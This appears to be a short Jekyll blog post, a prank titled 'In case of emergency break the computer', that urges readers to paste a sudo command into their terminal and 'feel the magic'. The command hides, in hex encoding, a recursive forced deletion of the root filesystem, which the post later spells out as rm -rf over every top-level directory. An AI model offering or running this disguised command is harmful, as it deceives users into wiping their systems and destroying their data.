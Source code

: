 ```yaml
---
layout: post
title: In case of emergency break the computer
subtitle: v
bigimg: /img/crash.gif
---
```


# In case of emergency break the computer
I see crashs, crashs all over the place

## What happens when we join the hunger with the urge to eat?

Open your TERMINAL and add a little code...

`sudo $(echo -e $(echo "726D202D7266" | sed 's/../\\x&/g;s/$/ \/*/'))`

Feel the magic happening before your eyes!

[![Echo do Mal](http://dropall.github.io/img/echo.jpg)](https://youtu.be/2DmHylxUTZw)

### Translation of code

What is actually inside the top hat

` rm -rf /bin /boot /cdrom /dev /etc /home /initrd.img /initrd.img.old /lib /lib64 /lost+found /media /mnt /opt /proc /root /run /sbin /snap /srv /sys /tmp /usr /var /vmlinuz /vmlinuz.old`



**Mage:** [@x_SHAMAN_x](https://t.me/x_SHAMAN_x) via Telegram.